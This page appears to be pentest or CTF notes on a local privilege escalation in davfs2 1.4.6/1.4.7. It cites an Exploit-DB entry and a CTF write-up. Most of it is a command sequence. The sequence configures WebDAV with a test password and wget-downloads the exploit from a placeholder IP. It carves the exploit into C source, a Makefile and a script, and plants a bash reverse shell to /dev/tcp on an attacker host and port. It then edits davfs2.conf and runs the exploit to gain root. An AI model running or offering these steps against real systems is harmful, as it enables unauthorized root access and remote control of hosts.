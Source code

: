 ```yaml
---
description: davfs2 1.4.6/1.4.7 - Local Privilege Escalation
---
```


# davfs2

[https://www.exploit-db.com/exploits/28806\
https://github.com/sectalks/sectalks/blob/master/ctf-solutions/SYD0x0b/z00nx/README.md](https://www.exploit-db.com/exploits/28806https://github.com/sectalks/sectalks/blob/master/ctf-solutions/SYD0x0b/z00nx/README.md)

```
<1.4.6/etc$ cat /etc/apache2/sites-enabled/000-default                       
NameVirtualHost *:80
<VirtualHost *:80>
        ServerAdmin webmaster@localhost

        DocumentRoot /var/www/test/web/
        <Directory /var/www/test/web/>
                Options Indexes MultiViews
                AllowOverride None
                Order allow,deny
                allow from all
        </Directory>

        Alias /webdav /var/www/test/web

        <Location /webdav>
           DAV On
           AuthType Basic
           AuthName "webdav"
           AuthUserFile /var/www/test/passwd.dav
           Require valid-user
       </Location>


htdigest /var/www/test/passwd.dav webdav test
password:test

locate depmod
/sbin/depmod
export PATH=/sbin:$PATH

cd ~

wget http://{LOCAL_IP}/28806.temp.txt
tr -d '\r' < 28806.temp.txt > 28806.txt
sed -n '40,73p' 28806.txt > coda.c
sed -n '84,90p' 28806.txt > Makefile
sed -n '101,192p' 28806.txt > exploit.sh
echo '#!/usr/bin/env bash' > /home/{user}/rootprog
echo 'bash -i >& /dev/tcp/{LOCAL_IP}/{LOCAL_PORT} 0>&1' >> /home/{user}/rootprog
chmod +x /home/user/rootprog
chmod +x exploit.sh
echo 'kernel_fs       coda' >> .davfs2/davfs2.conf
./exploit.sh

mount /home/user/dav/
test
test
```
